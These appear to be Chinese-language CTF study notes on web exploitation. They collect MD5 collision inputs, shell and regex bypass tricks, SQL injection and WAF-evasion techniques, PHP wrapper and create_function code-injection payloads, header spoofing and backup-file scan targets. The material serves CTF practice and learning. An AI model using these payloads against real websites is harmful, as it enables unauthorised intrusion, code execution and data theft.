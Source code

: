 # MD5强比较

```
if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){  
    echo $flag;  
}

```
https://marc-stevens.nl/research/md5-1block-collision/
```
(URL编码)
a = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

md5 = 008ee33a9d58b51cfeb425b0959121c9
```
```
https://www.mscs.dal.ca/~selinger/md5collision/

(Raw Hex,需要->From Hex->URL编码)
a = d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70

b = d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70

md5 = 79054025255fb1a26e4bc422aef54eb4
```
或直接传入数组`param1[]=1&param2[]=2`
弱比较：
QNKCDZO和s878926199a
# WebShell文件读取
ls bash tac nl more less head wget tail vi cat od grep sed bzmore bzless pcre paste diff file echo sh sort



Linux将反斜杠`\`视为换行符，于是可以在Shell任意添加反斜杠以绕过正则匹配（例如`l\s\ -la`）


POST传参传递`\xff`之类的字节时，选择`application/x-www-form-urlencoded`时，`HackBar`会报错`URI malformed`；选择`application/x-www-form-urlencoded(raw)`时，HTTP数据包最后的`\r`将会被后端识别为一个字符。

BurpSuite抓不到`localhost`，只能抓到`127.0.0.1`

# [suctf 2019]EasySQL
`show databases;`
`show tables;`
`show columns from Flag`

PHP的传参
`index.php?num=123`等价于`$_GET['num']`
`index.php? num=123`等价于`$_GET['num']`，可绕过WAF
`index.php?n um=123`等价于`$_GET['n_um']`
`index.php?num =123`等价于`$_GET['num_']`


scandir():列出参数目录中的文件和目录  
readfile():读取文件内容

Response Head、HTML注释都能藏东西

gopher|http|file|ftp|https|dict

备份文件`index.php.swp`


Shell绕过
eval()
取反，例如过滤`[A-Za-z0-9]+`，要执行`phpinfo()`，可以`(~%8F%97%8F%96%91%99%90)();`

防范措施
`php.ini`配置`disabled_functions`参数，禁止`exec()`、`eval()`等函数的运行

扫目录：flag.php robots.txt www.tar.gz login.php register.php config.php source.zip index.php.swp index.php.swo index.php.swn  www.zip example.php /secret index.php~
[16:04:39] 200 - 174B - /.idea/misc.xml  
[16:04:39] 200 - 296B - /.idea/modules.xml  
[16:04:40] 200 - 19KB - /.idea/workspace.xml

Mysql更改数据库名、表名、列名的rename table语句，把flag表改为PHP要查的表，从而绕过select、union、and、or
tac命令可以后接通配符`?`，例如`tac /flag`可以写成`tac /fla?`，以绕过正则匹配

/search.php?id=elt(length(database())>1,6) 新型盲注，可以绕`^`

SQL的WAF：'blob', 'load_extension', 'char', 'unicode', '(in|sub)str', '[lr]trim', 'like', 'glob', 'match', 'regexp', 'in', 'limit', 'order', 'union', 'join'

show databases
show tables
show columns from 表名

SQL怎么用alter和rename更改表名和列名
order by与group by都可以爆列数

PHP伪协议：
data://text/plain/, ..........当作文件读取
`php://filter/read=convert.quoted-printable-encode/resource=GWHT.php`
GET时读取php://input路径，会读取POST中的内容，记得改ContentLength响应头。（最好的方式是以POST发送，然后抓包手动把POST改成GET，修改ContentLength，POST区必须用空格，不能用`%20`）

正则表达式e模式？？？

如果`$a($b)`阻止`$a = 'phpinfo'`，则如何执行？答：`assert(phpinfo())`或`call_user_func(phpinfo)`

.stm .shtm .shtml文件是干什么的？好像可以SSI注入？

`?code=(~%8f%97%8f%96%91%99%90)();`,`@eval($code)`，但是过滤所有字母和数字。`~`不能放在括号外。

改IP：X-Forward-For  Client-IP X-Real-IP

Mysql字符串截取：left()、mid()、right()、substr()、substring()、substring_index()、reverse()

若`$a`、`$b`可控，面对注入点`$a('', $b);`，根据形参个数与位置马上联想到`$a=create_function`。PHP实验`create_function($args,$code)`的原理如下：
```php
eval('
	function 随机函数名($args){
		$code
	}
'}
return 随机函数名
```
利用这一点，我们可以令`$code=}......//`闭合花括号，执行恶意payload`......`，再用`//`把最后的花括号注释掉。

`preg_match('/^[0-9a-zA-Z]*$/i',$str)`可以用`%0a`多行绕过，或者中间插入一个`_`绕过

phpinfo()里面的`auto_prepend_file`

扫参数：
```shell
$ arjun -t 1 -u <URL> -d 0.1 --stable
```

弱密码：guest/guest

SQLite没有`ascii()`，只有`char()`

`dual` 用于测试数据库是否可以正常使用。就算没有dual这个数据库，`select 1 from dual`照样能执行成功